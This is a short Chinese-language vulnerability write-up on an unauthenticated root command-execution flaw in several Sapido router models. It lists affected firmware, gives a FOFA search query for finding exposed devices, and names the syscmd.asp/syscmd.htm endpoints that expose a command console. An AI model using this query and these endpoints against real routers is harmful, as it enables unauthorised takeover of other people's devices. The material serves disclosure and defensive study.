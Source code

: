 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

```
BR270n-v2.1.03
BRC76n-v2.1.03
GR297-v2.1.3
RB1732-v2.0.43
```

## FOFA

```
app="Sapido-路由器"
```

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](./images/202202162237726.png)

访问目标：

```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](./images/202202162237444.png)

直接输入就可以命令执行了

